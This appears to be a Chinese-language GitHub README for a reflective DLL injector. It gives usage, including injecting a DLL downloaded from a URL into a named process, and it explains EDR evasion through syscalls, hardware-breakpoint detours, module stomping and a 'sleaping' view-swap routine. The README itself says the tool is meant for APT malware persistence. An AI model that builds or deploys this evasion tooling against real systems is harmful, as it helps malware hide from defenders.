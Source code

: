 # ReflectiveDLL

反射DLL是一种高级的DLL加载技术，它通过模拟Windows加载器的工作流程，实现了从内存中直接加载DLL。通过使用Native API来达到隐蔽性的目的，并直接跳转到syscall来绕过常规的API监控。通过`sleaping`函数延迟映射恶意DLL来绕过EDR的内存扫描。可以用于APT和复杂的恶意软件中，在目标系统中长期驻留。



## 演示



![demo](./tmp/demo.png)



## 使用

```
DLL Injector - Usage

SYNOPSIS:
    injector [OPTIONS]

DESCRIPTION:
    Inject DLL into target processes. Supports both local files and remote URLs.

OPTIONS:
    -h, --help           Display this help message and exit
    -u, --url URL        Specify DLL URL for remote download
    -f, --file FILE      Specify local DLL filename
    -p, --process NAME   Target process name to inject into
        --local          Enable local injection mode

EXAMPLES:
    injector --file mydll.dll --process target.exe
    injector --url http://example.com/mydll.dll --process game.exe  
    injector --file payload.dll --process app.exe

NOTES:
    - Either --file or --url must be specified
    --process is required to identify the target application
    --local enables special local injection mode
```



## 介绍

**注入器**

注入器首先读取DLL文件到内存空间中，并加密某些函数。它会根据程序文件找到PID。通过`OpenProcess`获得进程的句柄，向目标进程申请一块新的内存空间（大小为反射DLL的大小 + 自定义头部大小），并使用`WriteProcessMemory`将头部({ 魔术值，KEY，反射函数大小 }）写入到目标进程的内存空间中。最后注入器创建一个远程线程，线程的起始函数为反射DLL中导出的预加载函数。

**反射DLL**

注入器会创建一个线程执行预加载函数，预加载函数会通过`RIP`寄存器获取当前模块的DLL头部（通过魔数头，反射DLL模块紧随着自定义的DLL头部）。当确定好模块基地址之后，预加载函数会根据头部的KEY来解密反射函数，执行反射函数之后并重新加密。最后创建新的线程执行`DllMain`函数。

反射函数通过对`ZwClose` ，`NtMapViewOfSection` 和 `NtCreateSection` 函数的入口打上硬件断点，并注册一个向量化异常处理例程，当触发单步异常时（如硬件断点），该异常处理例程就会被执行。异常处理例程通过调用这些API的`detour function` 对传入的参数进行修改。反射函数使用`LoadLibraryEx`加载牺牲的DLL(`SRH.dll`)，由于`LoadLibraryEx`会调用我们之前设置断点的几个API函数，所以当这些函数被`LoadLibraryEx`函数调用时，我们的异常处理例程就可以捕获这些单步异常，并调用对应的`detour function`去修改参数。`LoadLibraryEx`会对加载的DLL创建一个`Section`对象，并在最后通过`ZwClose`函数关闭这个对象。我们使用`ZwCloseDetour`函数来跳过该函数，保留该对象。当`LoadLibraryEx`函数执行完毕，我们移除该向量化异常处理例程，并取消这些硬件断点，最后`find_SRH_DLL_section_handle`函数获得`SRH.dll`的`Section`对象的句柄。

反射函数也通过`RIP`寄存器获取当前模块的DLL头部，并使用`mem_to_free`变量记录该地址（由于我们之前通过`VirtualAllocEx`函数申请了这块内存，后续我们需要释放这块内存避免内存泄漏）。

反射函数创建一个新的`Section`对象，其大小稍大于`SRH.dll`的大小（因为我们需要额外记录某些信息）。紧接着，它会取消映射由`LoadLibraryEx`函数映射的`SRH.dll`的视图，记录该模块的基地址，并在该基地址处重新映射我们刚刚创建的`Section`对象的视图（用于反射DLL，我们简称mal_dll）。我们记录牺牲的DLL(SRH.dll)的Section句柄，刚刚创建的Section句柄，以及新创建的Section大小和mem_to_free，将这些信息放在基地址头部。紧接着拷贝反射DLL的信息到刚刚新建的Section中。

接下来，我们需要将注入器在远程进程中申请的用于存储反射DLL文件的内存空间拷贝到刚刚新创建的内存视图当中去，并且进行PE文件的加载（手动修复IAT，进行重定位，注册异常函数表等），最后一步，我们创建一个新的线程，用于执行CRT初始化，并跳到DllMain函数中。

反射DLL的内存驻留方案核心是通过**内存地址重用**技术，实现在同一内存地址无缝替换DLL，同时保持执行连续性。这是一种高级的进程内存操作技术。在`sleaping`函数中实现。

**sleaping**

```c
int sleaping(
    PVOID image_base,
    HANDLE sac_dll_handle,
    HANDLE mal_dll_handle,
    SIZE_T view_size,
    PNT_FUNCTIONS nt_func_s,
    PVOID NtTestAlert_addr
);
```

`image_base` 是当前模块的基地址，同时也是sac_dll的基地址（由LoadLibraryEx("SRH.dll", ... )函数加载确定。`sac_dll_handle` 是`SRH.dll`的Section句柄，而`mal_dll_handle` 是我们后续通过`NtCreateSection`函数新创建的Section句柄（对应于反射DLL本身）。我们需要保证当前进程中所有线程都没有引用`image_base -> image_base + view_size` 这块内存。我们的思路也很简单，将当前执行`sleaping`的线程挂起，并新创建几个线程进行`UnMapViewOfFile(image_base)`，并调用`MapViewOfFileEx(sac_dll -> image_base)` 进行重映射即可。下面展示了`sleaping`函数的时序分析结果：

```
Main thread
    │
    ├─ Initialization phase (0-several ms)
    │   ├─ Create event object
    │   ├─ Allocate CONTEXT memory
    │   └─ Create thread 2 (suspended state)
    │
    ├─ Configure thread 2
    │   ├─ Get thread context
    │   ├─ Modify to WaitForSingleObjectEx(NtTestAlert returns)
    │   └─ Resume thread 2 execution
    │
    ├─ Create other threads
    │   ├─ CreateThread0 (suspended): UnmapViewOfFile
    │   ├─ CreateThread1 (suspended): MapViewOfFileEx(sac_dll)
    │   └─ CreateThread3 (suspended): MapViewOfFileEx(mal_dll)
    │
    ├─ Configure thread context
    │   ├─ Thread 0: UnmapViewOfFile(image_base)
    │   ├─ Thread 1: MapViewOfFileEx(sac_dll→image_base)
    │   └─ Thread 3: MapViewOfFileEx(mal_dll→image_base)
    │
    ├─ Create timer queue
    │
    ├─ Set APC queue (thread 2)
    │   ├─ APC1: UnmapViewOfFile(image_base)
    │   ├─ APC2: ResumeThread (Thread 3)
    │   └─ APC3: ExitThread (thread 2 itself)
    │
    ├─ Set timer
    │   ├─ Timer 1 (200ms): ResumeThread (Thread 0)
    │   └─ Timer 2 (300ms): ResumeThread (Thread 1)
    │
    └─ Wait for all threads to complete
```



## 参考

*   [oldboy21/RflDllOb]([oldboy21/RflDllOb: Reflective DLL Injection Made Bella](https://github.com/oldboy21/RflDllOb))

* [YOLO: You Only Load Once](https://oldboy21.github.io/posts/2024/01/yolo-you-only-load-once/)
* [Reflective DLL Got Indirect Syscall skills](https://oldboy21.github.io/posts/2024/02/reflective-dll-got-indirect-syscall-skills/) 
* [SWAPPALA: Why Change When You Can Hide?](https://oldboy21.github.io/posts/2024/05/swappala-why-change-when-you-can-hide/) 
* [SLE(A)PING Issues: SWAPPALA and Reflective DLL Friends Forever](https://oldboy21.github.io/posts/2024/06/sleaping-issues-swappala-and-reflective-dll-friends-forever/) 
* [Timer Callbacks Spoofing to Improve your SLEAP and SWAPPALA Untold](https://oldboy21.github.io/posts/2024/09/timer-callbacks-spoofing-to-improve-your-sleap-and-swappala-untold/)


